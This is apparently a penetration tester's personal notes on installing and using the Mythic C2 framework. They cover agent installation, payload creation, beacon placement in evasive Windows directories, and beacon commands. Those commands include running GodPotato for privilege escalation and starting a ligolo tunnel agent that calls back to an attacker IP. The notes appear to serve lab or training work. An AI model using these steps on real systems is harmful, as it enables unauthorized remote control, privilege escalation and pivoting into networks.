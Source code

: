
Mythic is a C2 server, used to deploy and control agents often used for AV evasion or persistence. 

## Installing Mythic

```bash
# Install docker
sudo apt update -y
sudo apt install docker -y
sudo apt install docker.io -y
sudo apt install docker-compose -y

# Git clone
git clone https://github.com/its-a-feature/Mythic
cd Mythic

# We need to make the binary, from the makefile in the Mythic directory.
sudo make
```

Now we can run Mythic for the first time
```bash
# Run Mythic for the first time
sudo -E ./mythic-cli start

# The config file is stored here if we want to modify it
vi Mythic/.env

# We need to install agents
# We'll start with Poseidon, used for Mac and Linux
sudo ./mythic-cli install github https://github.com/MythicAgents/Poseidon

# Install Apollo for use on Windows
sudo ./mythic-cli install github https://github.com/MythicAgents/Apollo

# We'll also need to install the http profile.
sudo ./mythic-cli install github https://github.com/MythicC2Profiles/http
```
The 'installed services' tab is important, we can see what all is installed.
![[notes/Atomic-Notes/40000-TOOLS/41000-OFFENSIVE-TOOLS/4170-MYTHIC-C2/Pasted image 20250526215523.png]]
## Web Interface
This is where can manage a lot of things. It's accessed at
`https://127.0.0.1:7443` by default
We'll find our admin credentials in the .env file
```bash
cat Mythic/.env | grep -i 'user'
cat Mythic/.env | grep -i 'password'

# If we wanted to, we could modify these, then restart Mythic
sudo ./mythic-cli restart
```

We can click 'Create Your First Payload'
![[notes/Atomic-Notes/40000-TOOLS/41000-OFFENSIVE-TOOLS/4170-MYTHIC-C2/Pasted image 20250526215029.png]]
We can leave most of this stuff unchanged, except maybe statically compile the payload.
Additionally, changing the callback details is necessary

![[notes/Atomic-Notes/40000-TOOLS/41000-OFFENSIVE-TOOLS/4170-MYTHIC-C2/Pasted image 20250526215701.png]]
We should be able to use our IP here, and port 80 is the default port. Even though we're not using HTTP/S, the traffic itself will be encrypted.
![[notes/Atomic-Notes/40000-TOOLS/41000-OFFENSIVE-TOOLS/4170-MYTHIC-C2/Pasted image 20250526215905.png]]
We can see our page on the 'payloads' page
![[notes/Atomic-Notes/40000-TOOLS/41000-OFFENSIVE-TOOLS/4170-MYTHIC-C2/Pasted image 20250526220223.png]]

We can just download and execute it. My first ever C2 beacon callback.
![[notes/Atomic-Notes/40000-TOOLS/41000-OFFENSIVE-TOOLS/4170-MYTHIC-C2/Pasted image 20250526224612.png]]


## Windows Beacon
Run it in a good directory (C:\Windows\Tasks), (C:\Users\Public). 

```powershell
Start-Process beacon.exe
```



# Useful Beacon Commands
## Register Assembly
We can put dotnet binaries into the agent. This is an opsec effective way of executing binares

N
```
register_assembly GodPotato-NET4.exe
execute_assembly -Assembly GodPotato-NET4.exe -Arguments "-cmd 'c:\users\public\taskmanager.exe'"
```

## Download/Upload
Self explanatory

## Run
Runs an executable. A command might look like
```
run -Executable C:\Windows\tasks\ligolo-windows-agent.exe -Arguments "-connect 10.10.16.157:443 -ignore-cert"
```
## References
https://redsiege.com/blog/2023/06/introduction-to-mythic-c2/

